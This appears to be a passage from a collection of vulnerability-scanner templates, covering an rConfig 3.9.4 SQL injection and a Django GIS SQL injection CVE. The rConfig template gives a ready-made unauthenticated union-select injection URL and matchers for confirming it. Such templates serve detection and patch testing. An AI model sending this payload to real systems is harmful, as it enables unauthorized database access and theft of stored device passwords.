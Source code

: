 ### Matchers

**Type - regex**

- part - body
- regex
  1. string\([0-9]{1,3}\)(\s)?"rp-([a-f0-9-]+)"

---

# rConfig 3.9.4 - SQL Injection

## Description

- rConfig 3.9.4 and previous versions has unauthenticated compliancepolicyelements.inc.php SQL injection. Because nodes' passwords are stored by default in cleartext, this vulnerability leads to lateral movement, granting an attacker access to monitored network devices.
- severity - critical
- tags - cve,cve2020,rconfig,sqli

## Requests

- Method - GET

### URL

- {{BaseURL}}/compliancepolicyelements.inc.php?search=True&searchField=antani'+union+select+(select+concat(0x223e3c42523e5b70726f6a6563742d646973636f766572795d)+limit+0,1),NULL,NULL,NULL,NULL+--+&searchColumn=elementName&searchOption=contains

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. [project-discovery]
- part - body

---

# Django SQL Injection

## Description

- Django 1.11 before 1.11.29, 2.2 before 2.2.11, and 3.0 before 3.0.4 allow SQL injection if untrusted data is used as a tolerance parameter in GIS functions and aggregates on Oracle. By passing a suitably crafted tolerance to GIS functions and aggregates on Oracle, it is possible to break character escaping and inject malicious SQL.
- severity - high
- tags - cve,cve2020,django,sqli,vulhub
